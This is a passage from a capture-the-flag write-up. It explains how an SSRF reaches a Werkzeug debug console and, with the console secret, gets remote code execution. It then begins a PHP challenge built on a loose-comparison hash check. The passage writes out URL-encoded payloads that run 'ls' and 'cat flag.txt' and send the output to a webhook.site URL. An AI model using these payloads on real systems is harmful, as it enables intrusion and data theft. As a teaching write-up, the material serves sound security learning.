 The command you executed is put directly in the query string, along with the secret and a few other parameters. You also
have a cookie that identifies you as already authenticated, so you don't need to re-enter the pin.

Using these, you can see that RCE is possible via the SSRF. But first, you need to get the secret so you can exploit the
SSRF.

Back to the remote application, navigate to /console. Look through the response and you will find the secret:

![secret](images/fatherboat/secret.png)

Our base SSRF URL will look like this:
`http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=`

To achieve RCE, just URL-encode your payload and append it to the end of the URL.

```
// import os; import requests
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=import%20os%3B%20import%20requests

// requests.get(f'https://webhook.site/0433eafd-89e6-4a5a-b2e5-636685144500?o={os.popen("ls").read()}')
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=requests.get%28f%27https%3A%2F%2Fwebhook.site%2F0433eafd-89e6-4a5a-b2e5-636685144500%3Fo%3D%7Bos.popen%28%22ls%22%29.read%28%29%7D%27%29

// requests.get(f'https://webhook.site/0433eafd-89e6-4a5a-b2e5-636685144500?o={os.popen("cat flag.txt").read()}')
http://localhost:5000/console?__debugger__=yes&s=LGoQoeWW26q97hcsoW5Y&frm=0&cmd=requests.get%28f%27https%3A%2F%2Fwebhook.site%2F0433eafd-89e6-4a5a-b2e5-636685144500%3Fo%3D%7Bos.popen%28%22cat%20flag.txt%22%29.read%28%29%7D%27%29
```

### How is this possible? Magic?!

>How is this possible? You don't allow a particular password but want the hashes to match? Sigh there must be some black magic going on here...  
>
> Author: Reyes

```php
<?php
    ini_set('display_errors', FALSE);
    include 'lib.php';
    $password = "RSnake33ncxYMsiIgw";
    if ($_GET["pass"] == $password){
        echo "Sorry, that's the right password. But you'll have to find a way to bypass this check.";
    }
    elseif (hash("sha1", $password) == hash("sha1", $_GET["pass"])){
        echo $flag;
    }
    else {
        echo "You got this! This should be a fun and easy web challenge!";
```